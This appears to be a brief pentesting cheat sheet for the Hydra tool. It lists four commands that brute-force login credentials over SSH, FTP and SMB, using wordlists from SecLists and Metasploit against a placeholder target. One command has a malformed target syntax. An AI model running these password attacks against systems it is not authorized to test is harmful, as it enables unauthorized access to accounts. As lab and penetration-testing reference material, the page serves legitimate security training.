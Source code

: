 # Hydra

### SSH brute-force

* <mark style="color:yellow;">hydra -l root -P /usr/share/SecLists/Passwords ssh:/targetip -t 2 -v</mark>
  * <mark style="color:yellow;">-t</mark>: Define number of threads to use
* <mark style="color:yellow;">hydra -L /usr/share/metasploit-framework/data/wordlists/common-users.txt -P /usr/share/metasploit-framework/data/wordlists/unix\_passwords.txt targetIP -t 4 ftp</mark>
* <mark style="color:yellow;">hydra -L /usr/share/metasploit-framework/data/wordlists/common\_users.txt -P /usr/share/metasploit-framework/data/wordlists/common\_passwords.txt targetIP -t 4 ssh</mark>
* <mark style="color:yellow;">hydra -l admin -P /usr/share/metasploit-framework/data/wordlists/unix\_password.txt targetIP smb</mark>



